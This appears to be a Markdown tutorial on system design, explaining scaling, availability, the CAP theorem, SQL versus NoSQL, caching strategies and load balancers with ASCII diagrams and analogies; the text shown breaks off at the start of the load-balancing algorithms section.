# 🏗️ System Design — From Zero to Planet Scale

> _"System design is just common sense at scale. The hard part is that common sense stops being obvious when millions of things happen at once."_

---

```
╔══════════════════════════════════════════════════════════════════════════════╗
║                                                                              ║
║   You       →   1 server   →   works great                                  ║
║   100 users →   1 server   →   still fine                                   ║
║   10K users →   1 server   →   getting slow                                 ║
║   1M users  →   1 server   →   💥 server is on fire                         ║
║   1B users  →   ???        →   this is what system design solves             ║
║                                                                              ║
╚══════════════════════════════════════════════════════════════════════════════╝
```

When you build a small app for yourself, you don't think about any of this — one laptop, one database, done.
But the moment real people start using your thing, everything breaks in ways you never imagined.
**System design is how you think through those problems before they happen.**

---

## Table of Contents

1. [What even is System Design?](#1-what-even-is-system-design)
2. [The Building Blocks — the Lego bricks of every big system](#2-the-building-blocks--the-lego-bricks-of-every-big-system)
3. [Scalability — how do you grow without breaking?](#3-scalability--how-do-you-grow-without-breaking)
4. [Availability — how do you stay up when things go wrong?](#4-availability--how-do-you-stay-up-when-things-go-wrong)
5. [CAP Theorem — the impossible triangle](#5-cap-theorem--the-impossible-triangle)
6. [Databases — choosing the right storage](#6-databases--choosing-the-right-storage)
7. [Caching — stop asking the same question twice](#7-caching--stop-asking-the-same-question-twice)
8. [Load Balancers — the traffic cops](#8-load-balancers--the-traffic-cops)
9. [CDN — the world is big, servers are slow](#9-cdn--the-world-is-big-servers-are-slow)
10. [Message Queues — don't do things right now](#10-message-queues--dont-do-things-right-now)
11. [API Gateway — the front door](#11-api-gateway--the-front-door)
12. [Rate Limiting — slowing down the greedy](#12-rate-limiting--slowing-down-the-greedy)
13. [Database Sharding — cutting the data pie](#13-database-sharding--cutting-the-data-pie)
14. [Replication — keeping backups alive](#14-replication--keeping-backups-alive)
15. [Microservices vs Monolith — one big thing or many small things?](#15-microservices-vs-monolith--one-big-thing-or-many-small-things)
16. [Real World Examples — how the big apps actually work](#16-real-world-examples--how-the-big-apps-actually-work)
17. [The System Design Interview Playbook](#17-the-system-design-interview-playbook)
18. [Key Numbers Every Designer Should Know](#18-key-numbers-every-designer-should-know)
19. [Glossary](#19-glossary)
20. [Single Server Setup — where every system starts](#20-single-server-setup--where-every-system-starts)
21. [API Design — the contract between systems](#21-api-design--the-contract-between-systems)
22. [API Protocols — the languages systems use to talk](#22-api-protocols--the-languages-systems-use-to-talk)
23. [Transport Layer — TCP and UDP](#23-transport-layer--tcp-and-udp)
24. [RESTful APIs — the most popular way to build APIs](#24-restful-apis--the-most-popular-way-to-build-apis)
25. [GraphQL — fetch exactly what you need](#25-graphql--fetch-exactly-what-you-need)
26. [Authentication — proving who you are](#26-authentication--proving-who-you-are)
27. [Authorization — what you’re allowed to do](#27-authorization--what-youre-allowed-to-do)
28. [Security — keeping the bad guys out](#28-security--keeping-the-bad-guys-out)

---

## 1. What even is System Design?

### The pizza shop analogy

Imagine you open a pizza shop.

Day 1 — it's just you. You take the order, make the pizza, and deliver it. Simple.

Now imagine your shop goes viral on Instagram. Suddenly 500 people want pizza at the same time. What happens?

- You can't take 500 orders yourself
- Your one oven can't cook 500 pizzas simultaneously
- You only have one delivery guy
- If your oven breaks, the whole shop shuts down

**System design is figuring out — before this happens — how you'll handle it.**

You'd hire more staff, buy more ovens, hire more delivery drivers, and set up a proper order management system. You'd think about: what if the cash register breaks? What if delivery guy 3 calls in sick? The answers are your "system design".

Now replace "pizza shop" with "Instagram" or "Google" and you get the idea.

---

### The journey from 1 user to 1 billion users

What actually breaks at each scale — and how you fix it:

```
╔══════════════════════════════════════════════════════════════════════════╗
║  USERS         WHAT'S HAPPENING            WHAT BREAKS / WHAT YOU ADD   ║
╠══════════════════════════════════════════════════════════════════════════╣
║  1 - 100    →  Laptop as a server          Nothing breaks. Enjoy it.    ║
║                                                                          ║
║  1K         →  Cloud server (single)       Getting a bit slow on        ║
║                                            read-heavy queries            ║
║                                            FIX: Add caching (Redis)     ║
║                                                                          ║
║  10K        →  Traffic spikes unpredictably Server sometimes crashes    ║
║                                            FIX: Load balancer +         ║
║                                            2-3 servers                  ║
║                                                                          ║
║  100K       →  DB is the bottleneck        Queries take seconds         ║
║                                            FIX: Read replicas,          ║
║                                            better indexing              ║
║                                                                          ║
║  1M         →  Everything is slow          Static files slow, DB huge   ║
║                                            FIX: CDN for static,         ║
║                                            DB sharding                  ║
║                                                                          ║
║  10M        →  One codebase is unmaintainable Teams blocking each other ║
║                                            FIX: Microservices,          ║
║                                            message queues               ║
║                                                                          ║
║  100M+      →  Global users, data laws     Latency, compliance          ║
║                                            FIX: Multi-region deploy,    ║
║                                            geo-sharding                 ║
╚══════════════════════════════════════════════════════════════════════════╝
```

---

### What a request actually does when you type a URL

Before anything else, let's trace what happens when you type `google.com` and press Enter. This flow is the foundation of everything in system design.



**Every step in this diagram is a concept in system design.** The rest of this document explains each one in depth.

---

## 2. The Building Blocks — the Lego bricks of every big system

Every large system — Twitter, Uber, Netflix — is assembled from the same set of building blocks. Master these and you can design almost anything.



---

### What each block does — with real analogies

| Block              | What it does                                                                  | Real-world analogy                                                                     |
| ------------------ | ----------------------------------------------------------------------------- | -------------------------------------------------------------------------------------- |
| **DNS**            | Converts `facebook.com` into `157.240.22.35` so computers can find each other | Phone book — you look up "Alice" to get her number                                     |
| **CDN**            | Keeps copies of images, videos, CSS in servers physically close to users      | A newspaper printing facility in every city — you don't ship all papers from one place |
| **Load Balancer**  | Sits in front of your servers and divides incoming traffic across them        | Airport check-in desk — "Counter 3 is free, please go there"                           |
| **API Gateway**    | Single entry point for all traffic — checks auth, routes to the right service | Hotel reception — one desk handles room keys, complaints, and directions               |
| **App Server**     | Runs your actual business logic — processes requests, makes decisions         | A chef in the kitchen who processes an order                                           |
| **Cache**          | Fast in-memory store (RAM) for frequently accessed data                       | Post-it notes on your desk — faster than going to the filing cabinet                   |
| **Primary DB**     | The permanent home of all your data. Handles reads AND writes                 | The actual filing cabinet — source of truth                                            |
| **Replica DB**     | A copy of the primary DB that handles read queries only                       | A photocopy of important documents for reference                                       |
| **Message Queue**  | Holds tasks that need to be done, workers pick them up at their own pace      | A restaurant ticket printer — orders pile up, chefs process them one by one            |
| **Worker**         | A background process that eats from the queue                                 | The line cook who handles tickets                                                      |
| **Object Storage** | Cheap, scalable storage for large files (images, videos, backups)             | A warehouse — not fast, but holds everything                                           |

---

## 3. Scalability — how do you grow without breaking?

**Scalability** = your system's ability to handle more load by adding resources — without rewriting everything.

There are exactly two approaches:

---

### Vertical Scaling — make the one machine bigger

You have one server. It's getting slow. So you buy a bigger, more powerful server.

```
         BEFORE                          AFTER

    ┌─────────────────┐            ┌─────────────────────────────┐
    │    Server       │    ──────► │    BIGGER Server            │
    │  ■■ 2 CPU cores │            │  ■■■■■■■■■■■■■■ 32 cores    │
    │  ░░░ 8GB RAM    │            │  ░░░░░░░░░░░░░░░░ 256GB RAM │
    │  💾 500GB SSD   │            │  💾💾💾💾 8TB SSD           │
    └─────────────────┘            └─────────────────────────────┘
       handles 1K req/s               handles 20K req/s
```

**When is this the right call?**

- You're just getting started and want simplicity
- Your problem is a single slow database query that needs more RAM
- You need a quick fix before a product launch

**When does it stop working?**

- There's a physical ceiling — you can't buy a server with unlimited RAM
- It's expensive disproportionately — doubling RAM doesn't just cost double
- It's a **single point of failure** — if this one giant machine dies, everything is down

---

### Horizontal Scaling — add more machines

Instead of making one machine bigger, you add more identical machines and split the load between them.

```
         BEFORE                          AFTER

    ┌─────────────────┐       ┌──────────┐  ┌──────────┐  ┌──────────┐
    │    Server       │  ───► │ Server 1 │  │ Server 2 │  │ Server 3 │
    │    (struggling) │       │ 8GB RAM  │  │ 8GB RAM  │  │ 8GB RAM  │
    └─────────────────┘       └────┬─────┘  └────┬─────┘  └────┬─────┘
                                   │              │             │
                              ─────┴──────────────┴─────────────┘
                                              │
                                    ┌─────────┴──────────┐
                                    │   Load Balancer     │
                                    │  (splits traffic)   │
                                    └─────────────────────┘
                                              │
                                         All traffic
```

**Why this is better at scale:**

- No ceiling — just keep adding machines
- One server dying doesn't kill the app — others pick up the slack
- Cheap commodity hardware instead of expensive specialised servers
- You can scale different parts independently

**The one catch: your app must be stateless**

```
❌ Stateful server (bad for horizontal scaling):
   User logs in → Session stored on Server 1
   Next request → Load balancer sends to Server 2
   Server 2: "Who are you? I've never seen you before"
   User is logged out. Bad experience.

✅ Stateless server (works with horizontal scaling):
   User logs in → Session stored in shared Redis cache
   Next request → Goes to ANY server
   Any server: "Let me check Redis... yes, you're logged in"
   Works perfectly.
```

> **The key insight:** Stateless servers don't remember you between requests. All "memory" lives in a shared external store (Redis, a database). This is what makes horizontal scaling possible.

---

### When to use which

```
┌──────────────────────────────────────────────────────────────────┐
│  START HERE                                                       │
│                                                                   │
│  Is your app in early stage / small team?                        │
│          │                                                        │
│     YES ─┤──► Vertical scaling. Simple, no overhead.            │
│          │                                                        │
│     NO   │                                                        │
│          │                                                        │
│  Is the bottleneck one specific thing (e.g. DB needs more RAM)?  │
│          │                                                        │
│     YES ─┼──► Scale that component vertically.                  │
│          │                                                        │
│     NO   │                                                        │
│          │                                                        │
│          └──► Horizontal scaling. Accept the complexity.         │
└──────────────────────────────────────────────────────────────────┘
```

---

## 4. Availability — how do you stay up when things go wrong?

**Availability** is simply: what percentage of time is your system actually working and reachable by users?

It sounds simple, but getting from "pretty reliable" to "almost never down" is one of the hardest engineering problems.

### The nines — what they actually mean

| Availability | Downtime per year | Downtime per month | What it means in practice                               |
| ------------ | ----------------- | ------------------ | ------------------------------------------------------- |
| 90%          | 36.5 days         | ~3 days            | Awful. Users will leave.                                |
| 99%          | 3.65 days         | ~7 hours           | Acceptable for hobby projects                           |
| 99.9%        | 8.7 hours         | ~44 minutes        | "Three nines" — industry standard for good services     |
| 99.99%       | 52 minutes        | ~4 minutes         | "Four nines" — what serious production services aim for |
| 99.999%      | 5 minutes         | ~26 seconds        | "Five nines" — telephone networks, banking              |
| 99.9999%     | 30 seconds        | ~3 seconds         | Practically unachievable at reasonable cost             |

> **52 minutes of downtime per year** sounds like a lot, but achieving "four nines" (99.99%) requires extremely careful engineering. AWS targets this. Most companies settle for 99.9%.

---

### Single Point of Failure — the #1 enemy of availability

A **single point of failure (SPOF)** is any component whose failure brings down the entire system.

```
SYSTEM WITH SPOF:                    SAME SYSTEM WITHOUT SPOF:

 Users                                Users
   │                                    │
   ▼                                    ▼
┌──────────┐                     ┌──────────────┐
│  Server  │ ← if this dies,     │ Load Balancer│ ← if this dies,
└────┬─────┘   everything ends   └──┬────────┬──┘   deploy a backup LB
     │                              │        │
     ▼                              ▼        ▼
┌──────────┐                   ┌────────┐ ┌────────┐
│  Single  │ ← if this dies,   │ Server │ │ Server │
│    DB    │   all data gone   │   A    │ │   B    │
└──────────┘                   └───┬────┘ └───┬────┘
                                   │           │
                                   ▼           ▼
                              ┌─────────┐ ┌───────────┐
                              │Primary  │ │  Replica  │ ← if Primary dies,
                              │   DB    │ │    DB     │   Replica takes over
                              └─────────┘ └───────────┘
```

---

### How availability is achieved in practice



---

### Graceful Degradation — fail smart, not hard

The best systems don't crash completely when something breaks. They degrade gracefully — they limp along, serving _some_ functionality.

```
❌ Not graceful:
   Recommendation service is down
   → Entire homepage crashes with 500 error
   → User can't do anything

✅ Graceful degradation:
   Recommendation service is down
   → Homepage shows generic popular items instead of personalised ones
   → User can still browse, search, buy
   → They don't even notice the recommendation engine is broken
```

> Facebook's core feed might go down, but you can still see your profile. Netflix's recommendations might fail, but you can still search and play movies. This is graceful degradation by design.

---

## 5. CAP Theorem — the impossible triangle

This is one of the most famous ideas in all of distributed systems, and it's surprisingly intuitive once you see it clearly.

### What the three letters mean

**C — Consistency:** Every read gets the most recent write. If you just updated your profile picture, and your friend loads your profile right now, they see the new one. Not the old one. Always.

**A — Availability:** The system always responds. Maybe the data is slightly old, but it never just says "I'm busy" or "I'm down". It always gives you _something_.

**P — Partition Tolerance:** The system keeps working even if the network between some of its machines breaks (a "partition" = a communication split between nodes).

---

### The catch

```
                         ✨ Consistency ✨
                        "Every read gets
                         the latest write"
                               ▲
                              /|\
                             / | \
                            /  |  \
                           /   |   \
                          / CP | CA  \
                         /     |     \
                        /      |      \
                       ▼       |       ▼
          Availability ◄───────┤──────► Partition
          "System always        |        Tolerance
           responds"     AP     |    "Works even if
                                |     network splits"
                                │
                      In practice, P is not
                      optional. Networks DO fail.
                      So you pick C or A.
```

**Why P isn't truly optional:**

In any distributed system (multiple machines), network failures happen. A cable gets unplugged. A switch fails. A datacenter loses power. When this happens, your nodes can't talk to each other — that's a partition.

Your system has to decide: do you want to **stay consistent** during the partition (refuse to respond until the split heals), or **stay available** (keep responding, even if some nodes have stale data)?

**That's the real choice: CP or AP.**

```
                CP Systems                          AP Systems
         (Consistent + Partition Tolerant)   (Available + Partition Tolerant)

    ✅ Every read = most recent write      ✅ System always responds
    ❌ Might refuse requests during         ❌ Might give slightly old data
       a network partition                    during a partition

    Use for: Bank balances, medical         Use for: Shopping carts, social
    records, booking systems                media feeds, product catalogs
    (wrong data = real harm)               (slightly stale = fine)

    Examples: PostgreSQL, MySQL,           Examples: Cassandra, DynamoDB,
    HBase, Zookeeper                       CouchDB, DNS
```

---

### A concrete example to make it click

Imagine you have a bank and your database is split across two data centres. Suddenly the network cable between them breaks.

```
Data Centre A                          Data Centre B
┌────────────────┐    ❌ BROKEN ❌    ┌────────────────┐
│  DB Node A     │ ─────────────────  │  DB Node B     │
│  Balance: £500 │   network split    │  Balance: £500 │
└────────────────┘                    └────────────────┘
        │                                     │
   User in UK                          User in USA
   withdraws £300                      No action
```

Now what?

**If CP:** Node A says "I can't confirm with Node B — I won't process this withdrawal. Error 503." The user is unhappy but the data is safe.

**If AP:** Node A says "I'll process it — balance is now £200." Meanwhile Node B still thinks the balance is £500. If the US user also withdraws £400 at the same time from Node B... the bank loses money. Bad.

> **Banks are CP.** Your Twitter feed is AP (seeing a tweet 3 seconds late = fine).

---

## 6. Databases — choosing the right storage

The database is where all your data lives permanently. Picking the wrong one is one of the most painful mistakes in engineering because changing it later is horrible.

---

### SQL — the spreadsheet model

SQL databases store data in **tables** (like spreadsheets), with **rows** (records) and **columns** (fields). The big thing is: tables can be **related** to each other using IDs.

```
┌─────────────────────────────────┐     ┌──────────────────────────────────────┐
│         users                   │     │              orders                  │
├────┬────────────┬──────────────┤     ├────┬─────────┬──────────┬───────────┤
│ id │ name       │ email         │     │ id │ user_id │ amount   │ status    │
├────┼────────────┼──────────────┤     ├────┼─────────┼──────────┼───────────┤
│  1 │ Alice      │ a@gmail.com  │◄────│  1 │    1    │ £49.99   │ delivered │
│  2 │ Bob        │ b@gmail.com  │◄──┐ │  2 │    1    │ £12.00   │ pending   │
│  3 │ Charlie    │ c@gmail.com  │   └─│  3 │    2    │ £109.50  │ delivered │
└────┴────────────┴──────────────┘     └────┴─────────┴──────────┴───────────┘
```

You can run a query like: _"Give me all orders over £50 for users who signed up before 2024"_ — joining the two tables together. This is the superpower of SQL.

**The ACID guarantee — what makes SQL trustworthy:**

```
A — Atomicity:    A transaction either fully succeeds or fully fails.
                  Transfer £100 from Alice to Bob:
                  ✅ Alice -£100 AND Bob +£100 (both happen)
                  ❌ Never: Alice -£100 but Bob stays the same (partial)

C — Consistency:  After every transaction, all rules are still valid.
                  Can't have an Order with a user_id that doesn't exist.

I — Isolation:    Two transactions happening at the same time don't
                  interfere with each other. Like they're queued up.

D — Durability:   Once committed, data survives a crash.
                  The database doesn't "forget" after a power cut.
```

**Use SQL for:** Banking, e-commerce, any system where data relationships matter and you cannot afford incorrect data.

Popular choices: PostgreSQL, MySQL, SQLite, Microsoft SQL Server

---

### NoSQL — the flexible model

NoSQL doesn't mean "no SQL" — it means "not only SQL". There's no single type of NoSQL — there are four very different flavours, each built for a specific kind of problem.



---

### Document DB — a filing cabinet with flexible folders

```
SQL way:                              MongoDB way:
users table + addresses table         One self-contained document:

SELECT u.name, a.city               {
FROM users u                           "name": "Alice",
JOIN addresses a                       "email": "a@gmail.com",
ON u.id = a.user_id                    "addresses": [
WHERE u.id = 1;                           {"city": "London", "primary": true},
                                          {"city": "Manchester"}
                                       ],
                                       "preferences": {
                                          "theme": "dark",
                                          "notifications": false
                                       }
                                    }
```

No joins needed — everything about Alice is in one document. Great for reading. Bad if you need to query across many documents in complex ways.

---

### ACID (SQL) vs BASE (NoSQL) — the philosophy difference

|              | **ACID** (SQL)                                          | **BASE** (NoSQL)                                                       |
| ------------ | ------------------------------------------------------- | ---------------------------------------------------------------------- |
| **Priority** | Correctness above all else                              | Availability above all else                                            |
| **A / BA**   | **A**tomic — all or nothing                             | **B**asically **A**vailable — always responds                          |
| **C / S**    | **C**onsistent — rules always apply                     | **S**oft state — might be temporarily inconsistent                     |
| **I / E**    | **I**solated — transactions don't interfere             | **E**ventually consistent — will be correct... eventually              |
| **D**        | **D**urable — survives crashes                          | Depends on config                                                      |
| **Analogy**  | A super strict accountant who checks every number twice | A fast cashier who sometimes needs to reconcile the till at end of day |
| **Use for**  | Money, reservations, medical data                       | Likes, views, caches, feeds                                            |

---

## 7. Caching — stop asking the same question twice

### The basic idea

Every time a user loads your app's homepage, you might be running 10 database queries to build that page. If 100,000 people load the homepage per minute, that's 1,000,000 database queries per minute — for the same data.

The cache says: _"I already fetched this. Here's my saved copy. No need to bother the database."_

```
WITHOUT CACHE:                           WITH CACHE:

Request 1: user asks for homepage        Request 1: cache miss → go to DB → cache result
           → query DB (50ms)             Request 2: cache hit → return from memory (1ms)
Request 2: user asks for homepage        Request 3: cache hit → return from memory (1ms)
           → query DB (50ms)             ...
Request 3: user asks for homepage        Request 100K: cache hit → return from memory (1ms)
           → query DB (50ms)
...

After 100K requests:                     After 100K requests:
100,000 DB queries                       1 DB query, 99,999 cache hits
```

---

### The cache hit / miss lifecycle



---

### Cache eviction — what to throw out when the cache is full

Your cache has limited space (it's RAM). When it fills up, something has to go. These are the strategies:

```
LRU — Least Recently Used (most common)
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Evict whatever was LAST ACCESSED the longest time ago.

Cache slots (newest to oldest):
[User:99] [User:42] [User:17] [User:05] ← evict this one next
   │          │         │         │
 2s ago    10s ago   45s ago   3min ago

Analogy: Your desk. You throw out the paper you haven't looked at longest.

──────────────────────────────────────────────────────────────────

LFU — Least Frequently Used
━━━━━━━━━━━━━━━━━━━━━━━━━━━
Evict whatever has been accessed the FEWEST total times.

Cache slots with access counts:
[User:42 (980x)] [User:99 (245x)] [User:17 (12x)] [User:05 (3x)] ← evict
    popular          moderate           rare           barely used

Good for: trending content where popular things stay popular

──────────────────────────────────────────────────────────────────

TTL — Time To Live (simplest)
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Every cached item has an expiry timestamp. After that, it's gone.

SET user:42 "..." EX 300   ← expires in 300 seconds (5 minutes)

Analogy: Milk with an expiry date. After that date, throw it out.
Good for: Any data that changes on a predictable schedule.
```

---

### Cache invalidation — the hardest problem

> _"There are only two hard things in Computer Science: cache invalidation and naming things."_ — Phil Karlton

You cached Alice's profile. Alice then updates her profile picture. Now the cache has the old picture and the database has the new one. They're out of sync. How do you fix this?

```
Strategy 1: Write-Through
━━━━━━━━━━━━━━━━━━━━━━━━━
When you update DB, also update the cache immediately.

App → Write to DB ─┐
                   ├──► Cache is always fresh ✅
App → Write to Cache ─┘

Problem: Every write is 2 operations. Slightly slower writes.
Best for: Systems where reads >> writes and freshness matters.

──────────────────────────────────────────────────────────────────

Strategy 2: Cache-Aside (most common in practice)
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
The app manages the cache manually.
On read: check cache → if miss, read DB → store in cache
On write: write to DB → DELETE the cache entry (invalidate it)
         Next read will be a miss and refetch from DB.

Good for: Flexibility. Works well in practice.
Problem: There's a tiny window where DB has new data but someone
         reads the (not yet deleted) old cache entry.

──────────────────────────────────────────────────────────────────

Strategy 3: Write-Back (Write-Behind)
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Write to cache immediately. DB gets updated later (async).
Ultra-fast writes. But risky — if cache server dies before
DB is updated, you lose data.

Best for: Non-critical high-frequency writes (like view counters).
```

---

### Where caches live in a real system

```
┌─────────────────────────────────────────────────────────────────────┐
│                    Caching at every layer                            │
│                                                                      │
│  Browser Cache    → Stores HTML, CSS, JS, images on user's device   │
│       │              No server request needed at all                 │
│       │                                                              │
│  CDN Cache        → Stores static files at edge locations           │
│       │              Closest server to user responds                 │
│       │                                                              │
│  App Server Cache → Process-level in-memory cache (simple maps)     │
│       │              Fastest but lost when server restarts           │
│       │                                                              │
│  Distributed Cache → Redis / Memcached shared across all servers    │
│       │              The most common production setup                │
│       │              Survives server restarts                        │
│       │                                                              │
│  DB Query Cache   → Database stores results of recent queries        │
│                      Automatically invalidated on data change        │
└─────────────────────────────────────────────────────────────────────┘
```

---

## 8. Load Balancers — the traffic cops

### Why you need one

Imagine a highway suddenly getting 10x the traffic it was designed for. Without any management, every lane piles up and nothing moves. A traffic management system opens new lanes and routes cars intelligently.

A load balancer is exactly that for your servers.

```
WITHOUT LOAD BALANCER:              WITH LOAD BALANCER:

  1000 requests/sec                   1000 requests/sec
         │                                    │
         ▼                            ┌───────┴──────────────┐
  ┌─────────────┐                     │    Load Balancer     │
  │  Server A   │ ← getting hammered  │  "Server A has 320   │
  │  CPU: 99%   │                     │   requests. Send     │
  └─────────────┘                     │   next one to B."    │
  ┌─────────────┐                     └──┬──────┬───────┬───┘
  │  Server B   │ ← sitting idle          │      │      │
  │  CPU: 1%    │                         ▼      ▼      ▼
  └─────────────┘                    Server A  Server B  Server C
  ┌─────────────┐                    CPU:33%   CPU:33%   CPU:33%
  │  Server C   │ ← sitting idle
  │  CPU: 1%    │
  └─────────────┘
```

---

### How a load balancer decides where to send traffic

